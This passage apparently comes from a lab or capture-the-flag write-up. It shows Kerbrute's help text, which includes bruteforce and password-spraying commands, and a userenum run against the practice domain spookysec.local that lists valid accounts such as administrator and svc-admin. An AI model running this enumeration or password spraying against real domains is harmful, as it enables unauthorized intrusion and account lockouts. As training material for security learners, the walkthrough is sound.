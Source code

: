 ```cmd
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

Next, in order to answer the second question, we'll need to run a proper Kerbrute command against the previously known AD domain (spookysec.local):

```cmd
┌──(ognard㉿kali)-[~/Downloads]
└─$ ./kerbrute userenum --dc spookysec.local -d spookysec.local -t 100 userlist.txt   

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/07/24 - Ronnie Flathers @ropnop

2024/08/07 11:40:18 >  Using KDC(s):
2024/08/07 11:40:18 >   spookysec.local:88

2024/08/07 11:40:19 >  [+] VALID USERNAME:       james@spookysec.local
2024/08/07 11:40:19 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2024/08/07 11:40:19 >  [+] VALID USERNAME:       James@spookysec.local
2024/08/07 11:40:19 >  [+] VALID USERNAME:       robin@spookysec.local
2024/08/07 11:40:19 >  [+] VALID USERNAME:       darkstar@spookysec.local
2024/08/07 11:40:20 >  [+] VALID USERNAME:       administrator@spookysec.local
2024/08/07 11:40:21 >  [+] VALID USERNAME:       backup@spookysec.local
2024/08/07 11:40:21 >  [+] VALID USERNAME:       paradox@spookysec.local
2024/08/07 11:40:23 >  [+] VALID USERNAME:       JAMES@spookysec.local
2024/08/07 11:40:24 >  [+] VALID USERNAME:       Robin@spookysec.local
2024/08/07 11:40:28 >  [+] VALID USERNAME:       Administrator@spookysec.local
2024/08/07 11:40:36 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2024/08/07 11:40:39 >  [+] VALID USERNAME:       Paradox@spookysec.local
2024/08/07 11:40:48 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2024/08/07 11:40:51 >  [+] VALID USERNAME:       ori@spookysec.local
2024/08/07 11:40:56 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2024/08/07 11:41:08 >  Done! Tested 73317 usernames (16 valid) in 49.177 seconds
```
